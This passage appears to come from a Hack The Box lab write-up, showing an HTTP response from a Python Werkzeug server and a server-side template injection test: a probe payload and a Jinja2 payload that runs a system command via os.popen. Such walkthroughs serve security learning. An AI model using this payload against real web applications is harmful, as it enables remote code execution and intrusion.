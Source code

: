 

    HTTP/1.1 200 OK
    Date: Wed, 23 Feb 2022 12:01:51 GMT
    Server: Werkzeug/2.0.2 Python/3.6.7
    Content-Type: text.md; charset=utf-8
    Vary: Cookie,Accept-Encoding
    Set-Cookie: session=eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiYjJlZjM2ZmY1MmYyMTViYTE3MWExY2EwZDJhYWE3MjJkNDc4NmVkYyJ9.YhYiLw.SY2uUMb7cHAxWkDC_CqKdW3Td0s; HttpOnly; Path=/
    Connection: close
    Content-Length: 13603



#### POC

Given the webserver is Python, server-side template injection (SSTI) is
a common flaw to look for. To check for SSTI, I'll give the standard
payload, `{{ 7 * 7 }}`. The name updates to 49:

![](/img/image-20220221222257539.png)

That's an excellent sign that the site is vulnerable to SSTI.

#### Execution POC

Just like in the recently retired box
[Bolt](/htb-bolt.md#ssti), I can try a simple payload to
see if I can get system execution via this SSTI:



    {{ namespace.__init__.__globals__.os.popen('id').read() }}



On submitting that as the name, the result returns:

![](/img/image-20220221222444916.png)
